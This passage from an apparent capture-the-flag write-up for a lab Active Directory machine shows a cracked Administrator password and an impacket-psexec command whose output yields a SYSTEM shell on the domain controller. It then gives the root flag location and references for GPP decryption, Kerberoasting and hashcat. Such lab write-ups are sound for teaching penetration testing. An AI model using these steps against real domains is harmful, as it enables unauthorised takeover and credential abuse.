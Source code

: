 
Our output file `cracked_hash` shows the cracked password `Ticketmaster1968`.

With the Administrator password in our hands use `impacket` with `ps-exec` to get a remote shell into the Domain Controller with admin privileges.

<div class="article-code">
{% highlight sh%}
jeanp@~$ impacket-psexec Administrator@10.10.10.100                                                                        
Impacket v0.12.0.dev1 - Copyright 2023 Fortra

Password:
Requesting shares on 10.10.10.100.....
Found writable share ADMIN$
Uploading file sCzWMDzA.exe
Opening SVCManager on 10.10.10.100.....
Creating service nGaT on 10.10.10.100.....
Starting service nGaT.....
[!] Press help for extra shell commands
Microsoft Windows [Version 6.1.7601]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

C:\Windows\system32> whoami 
nt authority\system
{% endhighlight %}
</div>

The root flag will be at `C:\Users\Administrator\Desktop`.

<div class="article-image">
  <img src="/assets/img/active/roottxt.png">
</div>

[gpp-decrypt]: https://www.kali.org/tools/gpp-decrypt/

[AES-Key]: https://learn.microsoft.com/en-us/openspecs/windows_protocols/ms-gppref/2c15cbf0-f086-4c74-8b70-1f2fa45dd4be

[AD-Mindmap]: https://raw.githubusercontent.com/Orange-Cyberdefense/ocd-mindmaps/main/img/pentest_ad_dark_2023_02.svg

[Kerberoasting]: https://www.ibm.com/topics/kerberoasting#:~:text=Kerberoasting%20is%20a%20cyberattack%20that,data%2C%20spread%20malware%20and%20more. 

[Hashcat-Catalog]: https://hashcat.net/wiki/doku.php?id=example_hashes



  


































